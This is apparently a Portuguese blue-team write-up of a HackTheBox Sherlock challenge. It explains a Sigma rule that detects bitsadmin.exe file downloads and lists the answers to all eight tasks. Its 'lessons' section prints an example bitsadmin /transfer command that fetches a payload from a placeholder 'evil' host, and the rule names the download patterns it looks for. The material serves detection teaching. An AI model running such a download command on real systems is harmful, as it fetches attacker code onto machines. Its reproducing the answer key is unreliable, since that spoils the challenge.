

# 🛡️ HTB Sherlock — Learn_Sigma

**Dificuldade:** Very Easy · **Categoria:** Detection Engineering / Blue Team · **Artefato:** regra Sigma `proc_creation_win_bitsadmin_download.yml`

---

## 📖 Sinopse

Um ransomware infectou um sistema crítico, e a investigação mostrou que os atacantes usaram o **bitsadmin.exe** para baixar arquivos maliciosos ou falar com o C2. O objetivo é ler uma regra **Sigma** que detecta esse comportamento e entender cada parte dela: seleção, condição, campos e tags do MITRE ATT&CK.

**Sigma** é um formato genérico (YAML) de regras de detecção. Você escreve a regra uma vez e converte para a linguagem de cada SIEM (Splunk, Elastic, Sentinel...). É o "Snort/YARA dos logs".

---

## 🔍 Acesso ao ambiente

```bash
xfreerdp /v:<ip> /u:letsdefend /p:'' /cert:ignore /dynamic-resolution
```

A regra fica em `C:\Users\LetsDefend\Desktop\ChallengeFile\proc_creation_win_bitsadmin_download.yml`. Abri o arquivo no Notepad.



---

## 🧩 Lendo a regra, bloco por bloco

### Metadados
`title: File Download Via Bitsadmin`, autor Michael Haag, `status: test`. As `references` apontam para o **LOLBAS**, o catálogo de binários legítimos do Windows que atacantes abusam ("Living Off The Land").

### Tags (ATT&CK)
```yaml
tags:
    - attack.defense-evasion
    - attack.persistence
    - attack.t1197      # BITS Jobs
    - attack.s0190      # software BITSAdmin
    - attack.t1036.003  # Masquerading: renomear utilitários do sistema
```
A primeira tática listada é **attack.defense-evasion**: o atacante usa uma ferramenta assinada pela Microsoft para não chamar atenção.

### Logsource
```yaml
logsource:
    category: process_creation
    product: windows
```
A regra monitora **criação de processos**: Sysmon Event ID 1 ou Security 4688.

### Detection
```yaml
selection_img:
    - Image|endswith: '\bitsadmin.exe'
    - OriginalFileName: 'bitsadmin.exe'
selection_cmd:
    CommandLine|contains: ' /transfer '
selection_cli_1:
    CommandLine|contains:
        - ' /create '
        - ' /addfile '
selection_cli_2:
    CommandLine|contains: 'http'
condition: selection_img and (selection_cmd or all of selection_cli_*)
```

- **selection_img**: o processo é o `bitsadmin.exe`. Checar o `OriginalFileName` pega o binário mesmo se ele for **renomeado** (por isso a tag T1036.003).
- **selection_cmd**: `/transfer` é o jeito direto de baixar um arquivo em um único comando.
- **selection_cli_1 + selection_cli_2**: o jeito "em etapas", que cria um job com `/create`, adiciona o arquivo com `/addfile` e usa uma URL `http`.
- **condition**: o bitsadmin **e** (um download direto **ou** todos os critérios do modo em etapas). Lista entre hífens é OR, e o `all of selection_cli_*` exige que todas as seleções `cli` batam.

O campo que mostra o comando executado é o **CommandLine**.

---

## 🏁 Respostas

| Task | Pergunta | Resposta |
|---|---|---|
| 0 | Executável alvo da regra | bitsadmin.exe |
| 1 | Opção que indica transferência | /transfer |
| 2 | Expressão lógica da condição | selection_img and (selection_cmd or all of selection_cli_*) |
| 3 | Campo que mostra o comando | CommandLine |
| 4 | Primeira tag de tática ATT&CK | attack.defense-evasion |
| 5 | Categoria de eventos monitorada | process_creation |
| 6 | Argumento para downloads HTTP | http |
| 7 | Opção para criar nova transferência | /create |

---

## 🧠 Lições para SOC

- Exemplo de comando que dispararia a regra: `bitsadmin /transfer job /download /priority high http://evil/payload.exe C:\Users\Public\p.exe`.
- Ferramentas LOLBAS (bitsadmin, certutil, mshta) baixando arquivos de URLs externas merecem triagem: quem executou, processo pai, destino e reputação da URL.
- Falso positivo possível: scripts legítimos de TI e atualizadores que usam BITS. Ajuste com allowlist de processo pai ou de domínio.
- Saber ler Sigma ajuda a entender **por que** um alerta disparou no SIEM, em vez de só aceitar o título.

---

**Cadeia:** atacante usa `bitsadmin.exe` (LOLBAS) ➔ `/transfer` ou `/create` + `/addfile` + `http` ➔ evento de `process_creation` ➔ regra Sigma casa `Image` + `CommandLine` ➔ alerta de Defense Evasion (T1197)
